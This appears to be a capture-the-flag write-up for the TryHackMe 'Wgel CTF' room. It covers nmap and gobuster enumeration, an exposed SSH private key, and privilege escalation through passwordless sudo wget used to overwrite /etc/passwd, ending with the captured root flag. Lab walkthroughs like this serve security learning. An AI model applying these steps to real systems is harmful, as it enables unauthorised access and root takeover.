




# TryHackMe: Wgel CTF

> Can you exfiltrate the root flag?

This is the IP I got:

```
10.10.223.109
```

I first ran an NMAP scan:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 17:42 BST
Nmap scan report for 10.10.223.109
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.56 seconds
```

So I decided to focus on this web service first. It looked like the default Ubuntu/Apache landing page, but there seemed to be parts missing. I found the following interesting comments:




This still didn't give me much so I also started running gobuster.

```
┌─[✗]─[parrot@parrot]─[~/Desktop/wgel-ctf]
└──╼ $gobuster dir -u http://$IP -w ../directory-list-2.3-medium.txt -x php,md,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.109
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,md,txt
[+] Timeout:                 10s
===============================================================
2023/08/02 17:50:18 Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.223.109/sitemap/]
```

This `/sitemap` seemed like a complete website, so I started running gobuster on this directory too. Using the directory wordlist, I didn't find anything. However, I tried a second wordlist with Apache-specific names, and found a file called `/sitemap/ssh/id_rsa`. I downloaded it to `id_rsa` here.


## User flag

I was able to log in using this key file, and retrieve the first flag.




## Root flag

Looks like I can run `wget` as root:

```
jessie@CorpOne:~$ sudo -l
 Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

If we control wget, I think we can use it to overwrite `/etc/passwd` and set a new root password.



```
jessie@CorpOne:/etc$ su
Password: 

root@CorpOne:/etc# cat /root/root_flag.txt 
b1b968b37519ad1daa6408188649263d
```


